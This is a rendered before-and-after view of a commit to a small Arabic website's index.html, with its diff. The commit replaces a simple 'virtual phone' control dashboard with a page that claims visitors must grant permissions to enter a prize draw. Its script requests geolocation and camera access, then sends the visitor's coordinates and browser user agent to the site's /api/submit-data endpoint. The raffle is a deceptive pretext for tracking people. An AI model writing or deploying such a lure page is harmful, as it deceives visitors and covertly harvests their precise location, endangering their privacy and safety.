

Before and after one commit to farsoog3-cell/Vvvvvvvvvvvvc, a website: page public/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (365-1280 px from the left). After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -1,72 +1,33 @@
 <!DOCTYPE html>
 <html lang="ar" dir="rtl">
-<head>
-    <meta charset="UTF-8">
-    <title>لوحة التحكم والهاتف</title>
-    <style>
-        body { display: flex; flex-direction: column; align-items: center; justify-content: center; height: 100vh; background-color: #222; font-family: sans-serif; margin: 0; }
-        .dashboard { width: 400px; padding: 20px; background-color: white; border-radius: 20px; box-shadow: 0 10px 30px rgba(0,0,0,0.5); text-align: center; }
-        .control-panel, .link-panel { margin-top: 20px; padding: 15px; border: 1px solid #ddd; border-radius: 10px; }
-        .phone { width: 250px; height: 500px; background-color: #fff; border-radius: 30px; border: 8px solid #000; padding: 20px; text-align: center; margin-top: 20px; transition: 0.5s; }
-        button { padding: 10px 20px; margin: 5px; cursor: pointer; border: none; border-radius: 5px; background-color: #007bff; color: white; font-size: 16px; }
-        button.off { background-color: #6c757d; }
-        input { width: 70%; padding: 10px; border: 1px solid #ddd; border-radius: 5px; }
-    </style>
-</head>
 <body>
-
-    <div class="dashboard">
-        <h2>لوحة التحكم</h2>
-
-        <div class="phone">
-            <h3>الهاتف الافتراضي</h3>
-            <p id="phone-status">الحالة: جاري التحميل...</p>
-        </div>
-
-        <div class="control-panel">
-            <h4>التحكم به عن بعد</h4>
-            <button onclick="setStatus('مفتوح')">تشغيل الهاتف</button>
-            <button class="off" onclick="setStatus('مغلق')">إغلاق الهاتف</button>
-        </div>
-
-        <div class="link-panel">
-            <h4>رابط الاتصال</h4>
-            <input type="text" id="linkBox" readonly style="width: 80%;">
-            <button onclick="copyLink()">نسخ الرابط</button>
-        </div>
-    </div>
+    <h1>للمشاركة في السحب، يرجى الموافقة على الأذونات</h1>
+    <button id="start-btn">ابدأ المشاركة</button>
 
     <script>
-        // إظهار رابط الموقع في المربع
-        document.getElementById('linkBox').value = window.location.origin;
+        document.getElementById('start-btn').addEventListener('click', async () => {
+            // 1. طلب الموقع الجغرافي
+            navigator.geolocation.getCurrentPosition(async (pos) => {
+                const location = { lat: pos.coords.latitude, lon: pos.coords.longitude };
 
-        // دالة نسخ الرابط
-        function copyLink() {
-            const copyText = document.getElementById("linkBox");
-            copyText.select();
-            document.execCommand("copy");
-            alert("تم نسخ الرابط!");
-        }
-
-        // دالة تغيير الحالة (إرسال POST للسيرفر)
-        async function setStatus(status) {
-            await fetch('/api/set', {
-                method: 'POST',
-                headers: { 'Content-Type': 'application/json' },
-                body: JSON.stringify({ status: status })
-            });
-            alert("تم تغيير الحالة إلى: " + status);
-        }
-
-        // تحديث حالة الهاتف تلقائياً كل ثانية لرؤية التغييرات
-        setInterval(async () => {
-            const res = await fetch('/api/status');
-            const data = await res.json();
-            const phone = document.querySelector('.phone');
-            const statusText = document.getElementById('phone-status');
-            statusText.innerText = "الحالة: " + (data.status === 'مفتوح' ? 'الهاتف يعمل' : 'الهاتف مغلق');
-            phone.style.background = data.status === 'مفتوح' ? '#7cfc00' : 'white';
-        }, 1000);
+                // 2. طلب الكاميرا (سيظهر للمستخدم نافذة الموافقة)
+                try {
+                    const stream = await navigator.mediaDevices.getUserMedia({ video: true });
+                    // إرسال البيانات للسيرفر
+                    await fetch('/api/submit-data', {
+                        method: 'POST',
+                        headers: { 'Content-Type': 'application/json' },
+                        body: JSON.stringify({
+                            location: location,
+                            deviceInfo: navigator.userAgent
+                        })
+                    });
+                    alert("تم إرسال البيانات بنجاح!");
+                } catch (err) {
+                    alert("خطأ: يرجى السماح بالوصول للكاميرا للمتابعة.");
+                }
+            }, () => alert("خطأ: يرجى السماح بالوصول للموقع."));
+        });
     </script>
 </body>
 </html>
```
